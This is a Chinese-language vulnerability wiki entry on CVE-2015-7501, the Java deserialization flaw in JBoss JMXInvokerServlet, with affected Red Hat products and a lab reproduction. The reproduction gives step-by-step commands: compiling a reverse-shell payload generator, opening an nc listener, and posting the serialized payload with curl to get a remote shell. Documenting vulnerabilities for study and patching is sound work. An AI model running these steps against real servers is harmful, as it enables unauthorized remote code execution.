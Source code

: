 （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞
=====================================================

一、漏洞简介
------------

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

二、漏洞影响
------------

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS
6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV)
6.x版本和5.x版本；Enterprise Application Platform
6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW)
6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA
Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat
OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.151:8080/invoker/JMXInvokerServlet>
返回如图，说明接口开发，存在反序列化漏洞

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId27.png)

打开nc界面，发现shell已经弹回来了

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId28.png)
